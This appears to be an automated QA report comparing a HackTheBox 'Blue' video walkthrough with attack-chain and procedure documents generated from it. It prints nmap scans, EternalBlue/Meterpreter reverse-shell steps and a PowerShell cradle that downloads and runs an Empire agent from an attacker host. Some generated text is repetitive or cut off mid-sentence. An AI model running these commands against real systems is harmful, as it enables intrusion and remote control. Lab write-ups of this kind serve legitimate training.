

# Source vs Generated Comparison

Generated: 2026-05-25T15:13:39.790Z

Summary: 0 blocker(s), 1 warning(s).

This report is intentionally capped. It shows excerpts and counts, not full bodies or raw asset JSON.

## qa-suite-youtube-blue

- Source ID: `06e43e78-3f18-4f71-a111-70634695b10b`
- Type: `youtube`
- Status: `completed`
- Current phase: `complete`
- Discovery: `acquired`
- Segments: selected 1/1, complete 1/1
- Assets: fetched 1/1, failed 0

### Verdict

**PASS**: 1 warning(s).

| Severity | Type | Scope | Message |
| --- | --- | --- | --- |
| warning | generated_chain_underrepresents_source_steps | attack_chain: qa-suite-youtube-blue: Group: Repository / Yrsfx6dw10e | Source extraction has 6 step(s), but the generated chain has 2; review for collapsed or missing attack flow. |

### Documents

| Title | Raw chars | Source URL / repo path |
| --- | ---: | --- |
| Group: Repository / Yrsfx6dw10e | 20336 |  |

#### Source Excerpt: Group: Repository / Yrsfx6dw10e

```markdown
# HackTheBox - Blue - HackTheBox - Blue

# HackTheBox - Blue

**Author:** IppSec
**Channel:** https://www.youtube.com/@ippsec
**Source:** https://www.youtube.com/watch?v=YRsfX6DW10E
**Video ID:** YRsfX6DW10E

---

# HackTheBox - Blue - Embed

## Embed

<iframe width="200" height="113" src="https://www.youtube.com/embed/YRsfX6DW10E?feature=oembed" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen title="HackTheBox - Blue"></iframe>

---

# HackTheBox - Blue - Transcript

## Transcript

[00:00] what's going on YouTube this is if Zack
[00:02] and won't be doing blue from half the
[00:04] box this box may not seem interesting
[00:05] because people popped in a row three
[00:07] minutes but we're gonna do some
[00:08] different things in this video first off
[00:10] we're gonna look into end map because
[00:11] I've said something wrong in every video
[00:13] - SC is not safe scripts it is default
[00:16] scripts there's a big difference we'll
[00:17] look into that
[00:18] then after that we're gonna pop the box
[00:20] with Metasploit with the eternal blue
[00:22] exploit nothing special there once we do
[00:25] that we're gonna pass that session from
[00:27] Metasploit into Empire and do a few
[00:30] things with Empire and then pass it from
[00:33] Empire back to Metasploit so you get
[00:34] familiar with birth those tools so let's
[00:37] jump in let's start off like every other
[00:39] box put the end map - SC for default
[00:42] scripts not save scripts sv and numerate
[00:45] versions output all formats and we'll
[00:46] call the file and map - scripts and the
[00:49] IP address of blue which is 1010 1040
[00:52] looking at the r
...[truncated 18536 chars]
```

### Raw Extraction Summary

| Document | Steps | Commands | Code blocks | Images | Narrative |
| --- | ---: | ---: | ---: | ---: | --- |
| Group: Repository / Yrsfx6dw10e | 6 | 7 | 0 | 0 | The attacker performs an initial network scan using Nmap with default and safe scripts to identify vulnerabilities on the target machine, specifically detecting the EternalBlue SMB vulnerability (MS17-010). They then exp ...[truncated 370 chars] |

#### Extraction Evidence: Group: Repository / Yrsfx6dw10e

Commands:
```json
[
  {
    "command": "nmap -sC -sV -oA nmap-scripts 10.10.10.40",
    "context": "Initial enumeration of the target machine",
    "parameters": {
      "-oA": "Output in all formats",
      "-sC": "Run default scripts",
      "-sV": "Version detection"
    },
    "description": "Run Nmap with default scripts and version detection, outputting results in all formats with the base filename 'nmap-scripts'."
  },
  {
    "command": "nmap -p 445 --script=safe 10.10.10.40",
    "context": "Targeted vulnerability scanning for SMB service",
    "parameters": {
      "-p 445": "Scan port 445",
      "--script=safe": "Run scripts classified as safe"
    },
    "description": "Run Nmap on port 445 using only safe scripts to detect vulnerabilities."
  },
  {
    "command": "msfconsole",
    "context": "Start Metasploit for exploitation",
    "parameters": {},
    "description": "Launch the Metasploit Framework console."
  },
  {
    "command": "git clone -b dev https://github.com/EmpireProject/Empire.git",
    "context": "Set up Empire for post-exploitation",
    "parameters": {
      "-b dev": "Clone the dev branch"
    },
    "description": "Clone the Empire repository from GitHub, using the dev branch."
  },
  {
    "command": "python3 -m http.server 80",
    "context": "Serve Empire PowerShell payload to target",
    "parameters": {
      "80": "Port number",
      "-m http.server": "Run HTTP server module"
    },
    "description": "Start a simple HTTP server on port 80 to host payloads."
  },
  {
    "command": "powershell -i -c \"(New-Object Net.WebClient).DownloadString('http://10.10.14.16/Empire.ps1') | IEX\"",
    "context": "Deploy Empire agent on target",
    "parameters": {
      "-c": "Execute command",
      "-i": "Interactive mode"
    },
    "description": "Download
...[truncated 77 chars]
```

Code:
```json
[]
```

### Generated Content

| Type | Name | Status | Version | Body chars | Code refs | Image refs | Fidelity | Instruction |
| --- | --- | --- | --- | ---: | ---: | ---: | ---: | ---: |
| attack_chain | qa-suite-youtube-blue: Group: Repository / Yrsfx6dw10e | pending | v1 | 5206 | 0 | 0 | 0.920 | 0.850 |
| procedure | Deploy Empire Agent On The Target Machine | pending | v1 | 4140 | 0 | 0 | 0.833 | 0.650 |
| procedure | Initial Enumeration Using Nmap With Default And Safe Scripts | pending | v1 | 4188 | 0 | 0 | 0.833 | 0.650 |

#### Generated Excerpt: attack_chain - qa-suite-youtube-blue: Group: Repository / Yrsfx6dw10e

```markdown
# qa-suite-youtube-blue: Group: Repository / Yrsfx6dw10e

## Overview

Group: Repository / Yrsfx6dw10e focuses on PowerShell-backed staging and web request tradecraft. The lab path here lands on linux and windows systems.
The attacker performs an initial network scan using.

## Setup

### Tools

- Python
- PowerShell
- Nmap

### Environment

- linux
- windows

### Prerequisites

- Load Metasploit, search for the MS17-010 exploit, set the payload to Windows x64 Meterpreter reverse TCP, configure LHOST and RHOST, and run the exploit to obtain a Meterpreter session

- Target environments: windows
- Load Metasploit, search for the MS17-010 exploit, set the payload to Windows x64 Meterpreter reverse TCP, configure LHOST and RHOST, and run the exploit to obtain a Meterpreter session
- Deploy Empire agent on the target machine
- Required tools: Python, PowerShell, Nmap

## Attack Flow



## Chain Steps

### Step 1: Initial Enumeration Using Nmap With Default And Safe Scripts

**Goal**: Execute the operator-controlled actions that activate the Group: Repository / Yrsfx6dw10e chain.

**Procedure Links**: [[procedures/Initial-Enumeration-Using-Nmap-With-Default-And-Safe-Scripts]]

- Initial enumeration using Nmap with default and safe scripts Run Nmap with the -sC flag (default scripts) and then with --script=safe to ide nmap -sC -sV -oA nmap-scripts 10.10.10.
- Run [[procedures/Initial-Enumeration-Using-Nmap-With-Default-And-Safe-Scripts]]: Run Nmap with default scripts and version detection. Run this command from the operator-side context for this step. Execute `nmap -sC -sV -oA nmap-scripts 10.10.10.40` from bash.

**Run**
...[truncated 3405 chars]
```

#### Generated Excerpt: procedure - Deploy Empire Agent On The Target Machine

```markdown
# Deploy Empire Agent On The Target Machine

Create a hosting directory on the target, serve the Empire PowerShell payload via a Python HTTP server, and execute the Empire launcher script remotely using PowerShell to establish the Empire agent

## Steps

### Step 1: Create directory for Empire payload hosting on target

- Actor: operator
- Where: target machine shell
- Touch: target machine filesystem

Deploy Empire agent on the target machine On the target machine, create a directory for hosting the Empire PowerShell payload, start a Python simple HTTP server, and download and execute the Empire launcher script using PowerShell

Reference:

```text
mkdir HTTP
```

Reference:

```text
echo '<Empire PowerShell launcher script>' > Empire.ps1
```

Run:

```python
python3 -m http.server 80
```

- Deploy Empire agent on the target machine On the target machine, create a directory for hosting the Empire PowerShell payload, start a Python simple HTTP server, and download and execute the Empire launcher script using PowerShell.

Run:

```powershell
powershell -i -c "(New-Object Net.WebClient).DownloadString('http://10.10.14.16/Empire.ps1') | IEX"
```

- Deploy Empire agent on the target machine On the target machine, create a directory for hosting the Empire PowerShell payload, start a Python simple HTTP server, and download and execute the Empire launcher script using PowerShell.

Verify:
- Step completed: Verify the expected state change for this step before proceeding.

Next: Ready to stage the Empire PowerShell launcher script in the HTTP directory

### Step 2: Stage Empire PowerShell launcher script on target

- Actor: operator
- Where: target machine shell
- Touch: Empire.ps1 file in HTTP directory

Deploy Empire agent on the target machine On the target machine, create a
...[truncated 2339 chars]
```

#### Generated Excerpt: procedure - Initial Enumeration Using Nmap With Default And Safe Scripts

```markdown
# Initial Enumeration Using Nmap With Default And Safe Scripts

Run Nmap with default scripts (-sC) and safe scripts (--script=safe) to identify open ports and detect the EternalBlue SMB vulnerability (MS17-010) on target 10.10.10.40

## Steps

### Step 1: Run Nmap with default scripts and version detection

- Actor: operator
- Where: operator host terminal
- Touch: target host 10.10.10.40

- On bash on the operator workstation, run `nmap -sC -sV -oA nmap-scripts 10.10.10.40`.
- Initial enumeration using Nmap with default and safe scripts Run Nmap with the -sC flag (default scripts) and then with --script=safe to identify open ports and vulnerabilities, specifically searching for the EternalBlue vulnerability script (MS17-010)

Run:

```bash
nmap -sC -sV -oA nmap-scripts 10.10.10.40
```

- Run this command from the operator-side context for this step.

Run:

```bash
nmap -p 445 --script=safe 10.10.10.40
```

- Initial enumeration using Nmap with default and safe scripts Run Nmap with the -sC flag (default scripts) and then with --script=safe to identify open ports and vulnerabilities, specifically searching for the EternalBlue vulnerability script (MS17-010).

Reference:

```text
grep -r 'MS17-010' /usr/share/nmap/scripts/
```

Verify:
- Command execution completed: Confirm the command produced the source-backed output or side effect before moving to the next action.

Next: Use the scan results to identify potential vulnerabilities and open ports for further targeted scanning

### Step 2: Run Nmap safe scripts against SMB port 445

- Actor: operator
- Where: operator host terminal
- Touch: target host 10.10.10.40 port 445

- On bash on the operator workstation, run `nmap -p 445 --script=safe 10.10.10.40`.
- Initial enumeration using Nmap with default and safe scripts Ru
...[truncated 2387 chars]
```

### Source Action Ledger

| Candidate | Type | Status | Quality | Actions | Procedure Steps | Chain Phases | Required Commands | Required Code | Required Images | Gaps |
| --- | --- | --- | --- | ---: | ---: | ---: | ---: | ---: | ---: | ---: |
| 89a076c5-0cf4-4804-b2ad-8c7579f42ef9 | procedure | ready | passed | 1 | 1 | 0 | 2 | 3 | 0 | 0 |
| c2ff4cb7-f07f-422a-8c3b-51571c715bdd | procedure | ready | passed | 1 | 1 | 0 | 4 | 0 | 0 | 0 |
| 03d8f7ee-b067-41aa-8e7b-295f20c4413b | procedure | ready | passed | 1 | 1 | 0 | 3 | 0 | 0 | 0 |

### Model-Prior Enrichment

Accepted enrichments: 0
Blocked claims: 0
Unresolved exact gaps: 0

| Candidate | Accepted | Blocked Claims | Unresolved Exact Gaps |
| --- | ---: | ---: | ---: |
| 89a076c5-0cf4-4804-b2ad-8c7579f42ef9 | 0 | 0 | 0 |
| c2ff4cb7-f07f-422a-8c3b-51571c715bdd | 0 | 0 | 0 |
| 03d8f7ee-b067-41aa-8e7b-295f20c4413b | 0 | 0 | 0 |

### Assets

| Type | Status | Count |
| --- | --- | ---: |
| document | fetched | 1 |

| Type | Filename | Language | Text chars | Preview route | Vault ref/local path |
| --- | --- | --- | ---: | --- | --- |
| document | youtube_YRsfX6DW10E.md |  | 19853 | `/api/assets/34b0bd6e-c8f3-40c8-820b-86eb8ab7761a/file` |  |

### Chain Candidates

| Title | Status | Quality | Score | Standardized chars |
| --- | --- | --- | ---: | ---: |
| qa-suite-youtube-blue: Group: Repository / Yrsfx6dw10e | standardized | quality_passed | 0.920 | 5206 |

### HITL Interventions

_None._
